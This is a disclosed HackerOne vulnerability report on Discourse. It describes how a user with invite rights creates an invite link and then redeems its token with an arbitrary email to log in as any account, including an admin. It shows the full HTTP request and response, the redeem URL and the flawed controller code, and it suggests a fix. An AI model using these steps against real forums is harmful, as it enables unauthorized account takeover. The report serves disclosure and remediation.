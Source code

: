# Any user with invite capabilities can take-over any account on Discourse

## Report Details
- **Report ID**: 242765
- **URL**: https://hackerone.com/reports/242765
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-06-23T21:39:36.043Z
- **Disclosed**: 2017-11-06T06:35:52.922Z

## Reporter
- **Username**: mishre
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: discourse

## Vulnerability Information
## Description
Users with a trust level of 2 and above on Discourse (being a member for 15 days,reading more than 100 posts and more - can be seen on: https://github.com/discourse/discourse/blob/b7386958edfb8215c99d90fde04521b3312d2ccd/config/site_settings.yml)  can invite new users to join discourse by sending an invite request. However, there exists an endpoint which uses the invite key without verifying the associated mail with the request and logs in a user to the victim's account if a valid invite key is provided.

## Steps to reproduce
1) Login with a user with trust level of 2 or above to discourse (tested on my local instal and against the code).
2) Now find a valid CSRF-TOKEN by browsing the site and then send the following request:
```
POST http://localhost:4000/invites/link HTTP/1.1
Host: localhost:4000
Connection: keep-alive
Content-Length: 35
Origin: http://localhost:4000
X-CSRF-Token: 8DkyJoFTPN4G4f3dBUWp2AsEtTg3mp7/pmoqQ9JLaZeCsKSX5DPce0O+57ni+Gc/O0cbU2rl7Y3Bdf9i2s+uZg==
Discourse-Visible: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://localhost:4000/
Accept-Encoding: gzip, deflate, sdch, br
Accept-Language: he-IL,he;q=0.8,en-US;q=0.6,en;q=0.4,es;q=0.2
Cookie: {redacted}

email=testingmichaelreiz@gmail.coma
```
you"ll receive the following response:
```
HTTP/1.1 200 OK
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Discourse-Username: {some-user}
X-Discourse-Route: invites/create_invite_link
Cache-Control: no-store, must-revalidate, private, max-age=0
Content-Type: application/json; charset=utf-8
Set-Cookie: _t=8f6f82a4709bad6dd66263a225f202c5; path=/; expires=Tue, 22 Aug 2017 21:14:37 -0000; HttpOnly; SameSite=Lax
Set-Cookie: _forum_session=RUpSZFVQZmx2emVieVYwM0tscDBKV29jZ3FmU2xXSmIvTGlPTFpTVit0Z1lCU29wYmN6eDlkTDFnWXF1a1RUcVluNy9UYVhkd3hNK1h1OHZwNFBYL202WllEUkJzbWVRTytVR0VRenlxMUsrZUF6cktQSm1JU0g2Y3p1WVlNZ2dXSHNINlVDUzZzSFBQcXVVQXZDR1c5dFhkc1c0Tmk3bDRlK2ljRFRraTF6bmp2QzgxTlNnTXBhWnllVU1HelptLS16cUVkVmg5cC9JdC91RzhRenJqSGVnPT0%3D--c3b63a42a9a94781bc137c1030a71a1241c04a24; path=/; HttpOnly; SameSite=Lax
Set-Cookie: __profilin=p%3Dt; path=/
X-Request-Id: 4181e2be-5061-49dd-b3cc-1e033ece95bc
X-Runtime: 1.912866
X-MiniProfiler-Ids: ["jfv6h7gfji19eekx7p57","nsqp68md79y8tusrn8rn","4s5fo1o25vp9l7954ybm","blf2ua82vyc0n9683jwb","fe5d5qfugyl5u0hjp7ez","3s7hzl7imehtnono8p18","dmmjnggyftilvg882j9q","bwvs5enxy6pqockcxael","tfu1fnjp7hi5e0nxhqwf"]
Content-Length: 64

"http://localhost:3000/invites/{some-token}"
```
Now copy the token for a use in the later steps - don't click the link.
3) Now open a new incognito tab and launch the following url:
```
http://localhost:4000/invites/redeem/{token-from-step3}?email=victimemail@gmail.com
```
You should now be logged in to the victim's account.

## Resolution
You should probably bind the invite token to a specific email in the InvitesController class. Also, the InvitesController seems to log in any user which launches a disposable invite link to the account with the email provided along the request as can be seen in the invites controller class:
```
    invite = Invite.find_by(invite_key: params[:token])

    if invite.present?
      user = Invite.redeem_from_token(params[:token], params[:email], params[:username], params[:name], params[:topic].to_i)
      if user.present?
        log_on_user(user)
```

## Impact
Any user with invitation capabilities can therefore login as an admin account in case he knows either his username or his email.

## Attachments
No attachments
